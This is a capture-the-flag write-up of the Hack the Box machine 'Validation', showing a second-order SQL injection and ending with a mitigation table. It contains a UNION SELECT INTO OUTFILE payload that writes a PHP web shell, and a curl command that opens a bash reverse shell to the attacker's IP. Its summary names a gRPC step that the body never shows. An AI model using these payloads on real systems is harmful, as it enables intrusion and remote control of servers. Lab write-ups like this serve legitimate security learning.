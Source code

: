 ```yaml
--- 
title: "Hack the Box (HTB) - Validation"
description: "Exploiting Second-Order SQL Injection"
date: 2024-07-13 12:00:00 -100
image: /assets/images/HTB - Validation Pics/Validation_Thumbnail.png
categories: [CTF]
tags: [sql injection, privilege escalation, password reuse, docker, web application]    # TAG names should always be lowercase
---
```


## Enumeration

We'll start with an [autorecon](https://github.com/Tib3rius/AutoRecon) scan against our target machine

```bash
sudo autorecon <ip>
```

Looking at the results, we see the following ports open

- 22 (SSH)
- 80 (HTTP)
- 4566 (HTTP)
- 8080 (HTTP)
- Various filtered ports

![Nmap Scan](/assets/images/HTB%20-%20Validation%20Pics/Nmap%20scan_validated.png)

We'll start with the low hanging fruit of this scan and check out the apache web server hosted on port 80. It appears to be a docker container as SSH identifies as `Ubuntu` and the web server identified as `Debian`

![Web page](/assets/images/HTB%20-%20Validation%20Pics/Web%20page.png)

Let's type in our user and check the request in burp

![Burp](/assets/images/HTB%20-%20Validation%20Pics/inital_burp.png)

let's toss this over to repeater with `CTRL + R` and examine the request & responses

The first thing we notice is the static `cookie` that we get when sending the request

The length of the cookie is 32 characters and is a `MD5` of our username. MD5 is obviously deprecated and would be a finding on a real vulnerability assessment but for our purposes in this CTF we will move forward

Let's try a simple SQL injection on the country parameter since we couldn't manually edit that in the GUI

```bash
username=Jigsaw64&country=Anguilla' 
```

Copying the cookie and editing it into our cookie user field We see the following error:

 `Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in
/var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php
on line 33`

![Fatal error](/assets/images/HTB%20-%20Validation%20Pics/Fatal%20error.png)

Our single quote `'` seems to have broken the SQL query and gave us an error.

Let's try commenting out the rest of the statement with `-- -`

The error went away once we commented out the rest of the query. This confirms that we have SQLi

Let's enumerate the number of columns by adding a simple union select statement

```SQL
username=Jigsaw94&country=Brazil' union select  1-- -
```

![No SQL error](/assets/images/HTB%20-%20Validation%20Pics/No%20SQL%20error.png)

No error, which confirms that we only have on column

With this we can now use the union select to insert a php shell 

```PHP / SQL
Brazil' UNION SELECT '<?php system($_REQUEST["cmd"]); ?>' INTO OUTFILE '/var/www/html/pwned.php'-- -
```

- `system()` PHP function used to execute shell commands
- `$_REQUEST["cmd"]` PHP superglobal variable that grabs the value of cmd parameter from the HTTP request
- `INTO OUTFILE` writes the query to a file
- `-- -` comment out the remaining SQL

Our SQL statement will take the value of our HTTP request and write it to `pwned.php`

After submitting the payload, we will need to visit `/account.php`. Our payload won't trigger until we load that, which makes this a [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

![Pwned PHP Uploaded](/assets/images/HTB%20-%20Validation%20Pics/Pwned%20php.png)

We see another error but this is due to the fact that our query did not return any columns or rows. We should be able to navigate to `pwned.php` and verify that our injection worked

![CMD1](/assets/images/HTB%20-%20Validation%20Pics/CMD1.png)

It looks like it works. The error is only due to the fact that we did not supply a command

![CMD2](/assets/images/HTB%20-%20Validation%20Pics/CMD2.png)

With this confirmation of RCE. Let's curl a shell request. We'll set up our `nc` listener and enter the following curl command

```bash
curl -X POST http://10.10.11.116/pwned.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/<YOURIP>/PORT 0>&1"'
```

![Shell Obtained](/assets/images/HTB%20-%20Validation%20Pics/Shell%20Obtained.png)

We have our shell. Since python is not installed on t his container I am going to use the following to upgrade to a pty

```bash
script -q /dev/null
```

![Upgraded shell](/assets/images/HTB%20-%20Validation%20Pics/Upgraded%20shell.png)

We immediately notice a `config.php` file. This is gold, let's take a look

![Config.php](/assets/images/HTB%20-%20Validation%20Pics/password.png)

We see a password `uhc-9qual-global-pw` here, let's try switching to root with this

![Root](/assets/images/HTB%20-%20Validation%20Pics/Root.png)

GG, we've obtained root on this box

## Summary

1. Initial enumerating discoverd Web server
2. Utilized second-order SQLi to get RCE
3. Connected back to our attacker machine via RCE
4. Found & exploited the gRPC service via SQLi
5. Discoverd config.php file with credentials
6. Used credentails from config.php to root machine

## Vulnerabilities & Mitigation

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Static Cookies Assigned by Username  | Use secure, ephemeral, randomly generated session identifiers |
| Use of Deprecated Hash (MD5) | Use a stronger hash function like SHA-256 or bcrypt|
| SQL Injection     | Validate and sanitize user input. Use prepared statements|
| Password Reuse | Don't reuse passwords!

### Remediation References

- [OWASP Secure Cookie Practices](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#secure-cookies)
- [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

